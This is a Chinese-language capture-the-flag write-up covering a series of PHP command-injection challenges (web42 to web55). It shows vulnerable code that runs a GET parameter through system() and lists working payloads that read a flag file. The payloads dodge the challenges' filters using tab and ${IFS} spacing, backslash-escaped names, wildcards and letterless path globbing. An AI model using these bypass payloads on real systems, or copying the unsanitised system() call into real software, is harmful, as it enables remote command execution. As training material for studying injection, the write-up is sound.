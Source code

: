 ```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
}
```
所以题目`>/dev/null 2>&1`的意思就是：  
文件标志符默认是1，把标准输出的内容丢弃，把标准错误的内容输出到1的地址，即：把标准错误也删除了。    
效果就是执行的结果全都不会回显，可以用`||`只执行前面的命令  
```
|   //只执行后面那条命令  
||  //只执行前面那条命令  
&   //两条命令都会执行  
&&  //两条命令都会执行  
```
payload:  `?c=ls ||`  
### web43
payload: `?c=less flag.php ||`
### web44
payload: `?c=less fla* ||`
### web45
paylaod: `/?c=less%09fla*||`
### web46
payload: `?c=more<fl\ag.php||`  
```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
>这个题`?c=more<fl\ag.php||`可以，`?c=more%09fla?.php||`可以,但是`?c=more<fla?.php||`不行，为什么??
### web47-54
```
?c=tac<fla\g.php||
?c=tac%09fla\g.php||
?c=tac%09fla\g.php||
?c=tac<fla\g.php||
?c=nl<fla\g.php||
?c=nl${IFS}/fla\g||
?c=nl${IFS}fla\g.php
?c=/bin/?at${IFS}f???.php
```
### web55
无字母RCE  
可以用含有数字的命令比如：  
- `/bin/base64` -> `?c=/???/????64%20????.???`
- `/usr/bin/bzip2` -> `?c=/???/???/????2%20????.???`
    然后访问路径：`flag.php.bz2`  
 